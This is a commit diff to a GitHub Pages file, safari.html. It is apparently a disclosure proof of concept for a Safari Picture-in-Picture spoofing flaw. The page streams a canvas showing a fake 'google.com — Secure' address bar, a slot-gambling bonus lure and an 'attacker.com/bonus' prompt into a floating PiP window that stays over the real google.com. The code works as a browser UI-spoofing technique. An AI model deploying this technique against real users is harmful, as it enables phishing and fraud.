

Before and after one commit to bonex1927/bonex1927.github.io, a plain HTML site: page safari.html in a window 1280 px wide. Shown: the whole page at 94% size, without its empty margins (106-1173 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update title and styles in safari.html

```diff
--- a/safari.html
+++ b/safari.html
@@ -3,110 +3,170 @@
 <head>
 <meta charset="utf-8">
 <meta name="viewport" content="width=device-width, initial-scale=1">
-<title>PoC Safari PiP - English - Fake Google + Attacker Link - FINAL FIXED</title>
+<title>PoC Safari PiP FINAL V3 WORKING</title>
 <style>
   body{margin:0;background:#f2f2f2;color:#000;font-family:-apple-system,sans-serif;padding:12px;text-align:center}
   .box{max-width:960px;margin:0 auto;background:#000;border:2px solid #333;border-radius:14px;overflow:hidden}
   canvas{width:100%;display:block}
-  video{width:100%;display:none;border:3px solid #0a84ff;border-radius:12px;margin-top:10px}
-  button{font-size:16px;padding:16px 20px;margin:8px 0;width:100%;max-width:480px;border-radius:12px;border:none;font-weight:700;cursor:pointer}
-  .b1{background:#0a84ff;color:#fff;font-size:18px}
-  .b2{background:#1c1c1e;color:#fff;border:1px solid #555}
-  .log{font-family:Menlo,monospace;font-size:11px;color:#0f0;background:#111;padding:12px;border-radius:10px;text-align:left;margin-top:10px;min-height:60px;white-space:pre-wrap;word-break:break-all;max-width:960px;margin-left:auto;margin-right:auto}
+  video{width:100%;display:block;border:3px solid #0a84ff;border-radius:12px;margin-top:10px;background:#000}
+  button{font-size:17px;padding:18px 20px;margin:10px 0;width:100%;max-width:500px;border-radius:14px;border:none;font-weight:800;cursor:pointer;-webkit-appearance:none}
+  .b1{background:#0a84ff;color:#fff;font-size:19px}
+  .b2{background:#1c1c1e;color:#fff;border:2px solid #555}
+  .log{font-family:Menlo,monospace;font-size:11px;color:#0f0;background:#111;padding:12px;border-radius:10px;text-align:left;margin-top:12px;white-space:pre-wrap;word-break:break-all;max-width:960px;margin:0 auto}
 </style>
 </head>
 <body>
-<h3>Safari PiP Spoof - FINAL ENGLISH - 2 Button (FIXED)</h3>
+
+<h3>FINAL V3 WORKING - Safari PiP Fake google.com</h3>
 <div class="box">
   <canvas id="c" width="960" height="540"></canvas>
-  <video id="v" playsinline webkit-playsinline muted controls></video>
+  <video id="v" playsinline webkit-playsinline muted controls autoplay></video>
 </div>
-<button class="b1" id="btnPiP">1. Activate PiP - Fake Google.com</button>
-<button class="b2" id="btnGoogle">2. Open google.com (real) - Check PiP persists on top</button>
-<div class="log" id="log">Log:</div>
+
+<button class="b1" onclick="initAndPiP()">1. Activate PiP - Fake Google.com</button>
+<button class="b2" onclick="openGoogle()">2. Open google.com (real) - Check PiP persists</button>
+
+<div class="log" id="log">Log: ready - Origin: checking...
+Tap button 1 first</div>
+
 <script>
 var c=document.getElementById('c'), ctx=c.getContext('2d'), v=document.getElementById('v');
-var logEl=document.getElementById('log'); var stream=null;
-function log(t){ logEl.textContent += "\n"+new Date().toLocaleTimeString()+" - "+t; }
+var logEl=document.getElementById('log');
+var stream=null;
+
+function log(t){
+  console.log(t);
+  logEl.textContent += "\n"+new Date().toLocaleTimeString()+" - "+t;
+  logEl.scrollTop = logEl.scrollHeight;
+}
 log("Origin attacker: "+location.origin+" | bonex1927.github.io");
+log("Canvas ready - 960x540");
+
 function roundRect(x,y,w,h,r){
-  ctx.beginPath(); ctx.moveTo(x+r,y); ctx.lineTo(x+w-r,y);
-  ctx.quadraticCurveTo(x+w,y,x+w,y+r); ctx.lineTo(x+w,y+h-r);
-  ctx.quadraticCurveTo(x+w,y+h,x+w-r,y+h); ctx.lineTo(x+r,y+h);
-  ctx.quadraticCurveTo(x,y+h,x,y+h-r); ctx.lineTo(x,y+r);
-  ctx.quadraticCurveTo(x,y,x+r,y); ctx.closePath(); ctx.fill();
+  ctx.beginPath();
+  ctx.moveTo(x+r,y); ctx.lineTo(x+w-r,y);
+  ctx.quadraticCurveTo(x+w,y,x+w,y+r);
+  ctx.lineTo(x+w,y+h-r);
+  ctx.quadraticCurveTo(x+w,y+h,x+w-r,y+h);
+  ctx.lineTo(x+r,y+h);
+  ctx.quadraticCurveTo(x,y+h,x,y+h-r);
+  ctx.lineTo(x,y+r);
+  ctx.quadraticCurveTo(x,y,x+r,y);
+  ctx.closePath(); ctx.fill();
 }
+
 function draw(){
   ctx.fillStyle='#fff'; ctx.fillRect(0,0,960,540);
-  ctx.fillStyle='#f1f3f4'; ctx.fillRect(0,0,960,84);
-  ctx.fillStyle='#fff'; roundRect(12,12,936,60,30);
-  ctx.fillStyle='#202124'; ctx.font='bold 24px sans-serif'; ctx.textAlign='left';
-  ctx.fillText('🔒',28,52);
-  ctx.fillStyle='#1a73e8'; ctx.font='bold 22px sans-serif';
-  ctx.fillText('google.com',68,52);
-  ctx.fillStyle='#5f6368'; ctx.font='16px sans-serif';
-  ctx.fillText(' — Secure',210,52);
-  ctx.fillStyle='#dadce0'; ctx.fillRect(0,84,960,2);
-  ctx.fillStyle='#ff0033'; ctx.fillRect(0,86,960,454);
-  ctx.fillStyle='#ffff00'; roundRect(24,104,912,84);
-  ctx.fillStyle='#000'; ctx.font='900 38px sans-serif'; ctx.textAlign='center';
-  ctx.fillText('SLOT GACOR 2026 - MAXWIN x1000',480,156);
+  // Fake omnibox GEDE biar keliatan di PiP kecil
+  ctx.fillStyle='#f1f3f4'; ctx.fillRect(0,0,960,90);
+  ctx.fillStyle='#fff'; roundRect(12,14,936,62,31);
+  ctx.fillStyle='#202124'; ctx.font='bold 26px sans-serif'; ctx.textAlign='left';
+  ctx.fillText('🔒',30,56);
+  ctx.fillStyle='#1a73e8'; ctx.font='bold 24px sans-serif';
+  ctx.fillText('google.com',70,56);
+  ctx.fillStyle='#5f6368'; ctx.font='17px sans-serif';
+  ctx.fillText(' — Secure • google.com',212,56);
+  ctx.fillStyle='#dadce0'; ctx.fillRect(0,90,960,2);
+
+  ctx.fillStyle='#ff0033'; ctx.fillRect(0,92,960,448);
+  ctx.fillStyle='#ffff00'; roundRect(24,110,912,88);
+  ctx.fillStyle='#000'; ctx.font='900 40px sans-serif'; ctx.textAlign='center';
+  ctx.fillText('SLOT GACOR 2026 - MAXWIN x1000',480,164);
+
   ctx.fillStyle='#fff'; ctx.font='bold 22px sans-serif'; ctx.textAlign='left';
-  ctx.fillText('RTP 98.7% - HIGH WIN RATE',40,220);
+  ctx.fillText('RTP 98.7% - HIGH WIN RATE',40,230);
   ctx.font='16px sans-serif';
-  ctx.fillText('Limited time bonus for Google users',40,246);
-  ctx.fillStyle='#0a2540'; roundRect(40,270,360,200,16);
-  ctx.fillStyle='#ffcc4d'; roundRect(70,290,48,32,6);
+  ctx.fillText('Limited bonus for Google users',40,254);
+
+  // Card
+  ctx.fillStyle='#0a2540'; roundRect(40,280,360,200,16);
+  ctx.fillStyle='#ffcc4d'; roundRect(70,300,48,32,6);
   ctx.fillStyle='#fff'; ctx.font='bold 18px monospace'; ctx.textAlign='left';
-  ctx.fillText('**** **** **** 4242',70,360);
+  ctx.fillText('**** **** **** 4242',70,370);
   ctx.font='12px monospace'; ctx.fillStyle='#a3b4c7';
-  ctx.fillText('VALID 12/28',70,380);
-  ctx.fillText('MAXWIN BONUS $5000',70,398);
+  ctx.fillText('VALID 12/28',70,390);
+  ctx.fillText('MAXWIN $5000',70,408);
   ctx.fillStyle='#fff'; ctx.font='bold 20px sans-serif'; ctx.textAlign='right';
-  ctx.fillText('VISA',370,452);
+  ctx.fillText('VISA',370,462);
+
   ctx.fillStyle='#fff'; ctx.font='bold 18px sans-serif'; ctx.textAlign='left';
-  ctx.fillText('To claim MAXWIN, please visit:',440,300);
-  ctx.fillStyle='#00ff7f'; ctx.font='bold 20px monospace';
-  ctx.fillText('attacker.com/bonus',440,330);
+  ctx.fillText('To claim, please visit:',440,310);
+  ctx.fillStyle='#00ff7f'; ctx.font='bold 22px monospace';
+  ctx.fillText('attacker.com/bonus',440,340);
   ctx.fillStyle='#fff'; ctx.font='14px sans-serif';
-  ctx.fillText('This text is NOT clickable (video only).',440,354);
-  ctx.fillText('But user will manually type it,',440,374);
-  ctx.fillText('thinking it is from google.com PiP.',440,394);
-  ctx.fillText('Origin spoof: PiP shows google.com',440,420);
-  ctx.fillText('Real origin: bonex1927.github.io',440,440);
-  ctx.fillText('NO origin shown in PiP window = BUG',440,460);
+  ctx.fillText('NOT clickable (video PiP only).',440,364);
+  ctx.fillText('User types manually thinking',440,384);
+  ctx.fillText('it is from google.com',440,404);
+  ctx.fillText('Real origin: bonex1927.github.io',440,434);
+  ctx.fillText('NO origin in PiP = BUG',440,454);
+
   ctx.fillStyle='#ffff00'; ctx.font='bold 11px monospace'; ctx.textAlign='left';
-  ctx.fillText('BUG: PiP shows 🔒 google.com but real origin bonex1927.github.io not visible',12,532);
+  ctx.fillText('BUG: 🔒 google.com in PiP but origin bonex1927.github.io hidden',12,532);
   requestAnimationFrame(draw);
-} draw();
+}
+draw();
+
 function initAndPiP(){
-  log("Btn1 clicked - init + PiP in 1 gesture");
+  log("=== BTN1 CLICKED ===");
+  alert("Btn1 clicked - will try PiP now");
   try{
     if(!stream){
-      if(c.captureStream) stream=c.captureStream(30);
-      else if(c.webkitCaptureStream) stream=c.webkitCaptureStream(30);
-      else { log("captureStream not supported"); return; }
-      v.srcObject=stream; v.style.display='block'; c.style.display='none'; v.muted=true;
+      log("Creating captureStream...");
+      if(c.captureStream){
+        stream=c.captureStream(30);
+        log("captureStream OK");
+      } else if(c.webkitCaptureStream){
+        stream=c.webkitCaptureStream(30);
+        log("webkitCaptureStream OK");
+      } else {
+        log("ERROR: captureStream not supported");
+        alert("captureStream not supported in this browser");
+        return;
+      }
+      v.srcObject=stream;
+      v.muted=true;
+      log("srcObject set, trying play...");
     }
     v.play().then(()=>{
+      log("video.play() OK - now entering PiP...");
       try{
         if(v.webkitSetPresentationMode){
           v.webkitSetPresentationMode('picture-in-picture');
-          log("PiP OK -> CHECK: do you see 🔒 google.com in PiP?");
-          log("CHECK: do you see bonex1927.github.io in PiP? NO = BUG");
+          log("PiP SUCCESS - webkitSetPresentationMode");
+          log("CHECK: PiP shows 🔒 google.com?");
+          log("CHECK: bonex1927.github.io visible? NO = BUG");
         } else if(v.requestPictureInPicture){
-          v.requestPictureInPicture().then(()=>log("PiP OK")).catch(e=>log("PiP fail: "+e));
+          v.requestPictureInPicture().then(()=>{
+            log("PiP SUCCESS - requestPictureInPicture");
+          }).catch(e=>{
+            log("PiP FAIL: "+e);
+            alert("PiP fail: "+e);
+          });
+        } else {
+          log("PiP not supported");
+          alert("PiP not supported");
         }
-      }catch(e){ log("PiP err: "+e); }
-    }).catch(e=>log("Play fail: "+e));
-  }catch(e){ log("Err: "+e); }
+      }catch(e){
+        log("PiP exception: "+e);
+        alert("PiP error: "+e);
+      }
+    }).catch(e=>{
+      log("Play FAIL: "+e+" - trying without play");
+      try{
+        if(v.webkitSetPresentationMode) v.webkitSetPresentationMode('picture-in-picture');
+      }catch(e2){ log("Fallback fail: "+e2); }
+    });
+  }catch(e){
+    log("Init exception: "+e);
+    alert("Error: "+e);
+  }
 }
-document.getElementById('btnPiP').addEventListener('click', initAndPiP);
-document.getElementById('btnGoogle').addEventListener('click', ()=>{
-  log("Opening https://google.com ...");
+
+function openGoogle(){
+  log("=== BTN2 CLICKED - Opening google.com ===");
   window.open('https://google.com','_blank');
-  log("Check: fake google.com PiP still on top of real google.com?");
-});
+  log("Check: fake google.com PiP still on top of real google.com tab?");
+}
 </script>
 </body>
 </html>
```
